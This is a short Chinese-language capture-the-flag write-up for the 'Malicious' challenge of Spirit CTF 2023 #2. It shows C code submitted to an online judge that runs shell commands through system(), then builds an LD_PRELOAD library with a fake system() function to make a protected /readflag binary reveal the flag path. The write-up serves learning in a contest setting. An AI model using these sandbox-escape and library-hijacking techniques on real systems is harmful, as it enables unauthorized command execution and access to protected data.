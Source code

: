 # Spirit CTF 2023#2 题解 - Malicious
![](./img/malicious_desc.png)

Solution
---

首先~~这个题它确实可以AC~~可以用`system`来执行命令

```c
int solve() {
  system("id");
  return 123456789;
}
```

![](./img/malicious_solution_0.png)

其次~~AC也不给你flag~~找到一个`/readflag.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void print_flag(char* flag_path) {
  char command[256];
  strcpy(command, "echo ");
  strcat(command, flag_path);
  strcat(command, " > /dev/null");
  system(command);
  printf("I know where the flag is but I won't tell you~~~");
}

int main() { print_flag("<audited>"); }
```

想要获取`/readflag`也是不可行的，只有执行没有读写权限。

想直接找flag也行，我也不知道是哪个诶嘿～

![](./img/malicious_solution_1.png)

这里`readflag`的嘲讽是多余的，咱制作一个假的`system`函数，使用`LD_PRELOAD`来进行动态库插桩

```c
#include <stdio.h>
#include <stdlib.h>

int solve() {
  char* src =
      "#include<stdio.h>\n"
      "int system(char * path) {\n"
      "  FILE * f = fopen(\"./flag_path\", \"w\");\n"
      "  fprintf(f, path);\n"
      "  fclose(f);\n"
      "}\n";
  FILE* f = fopen("./hack.c", "w");
  fputs(src, f);
  fclose(f);
  system("gcc hack.c -fPIC -shared -o hack.so");
  system("LD_PRELOAD=./hack.so ../readflag");
  system("cat ./flag_path");

  return 0;
}
```

![](./img/malicious_solution_2.png)

然后直接读取就好啦

> Dionysus佬打出了个非预期解，快去摇他～

> 另外还有个~~新生~~卡密想到了按修改时间排序的方法，着实给我打懵了QAQ
>
> ![](./img/malicious_another_solution.png)
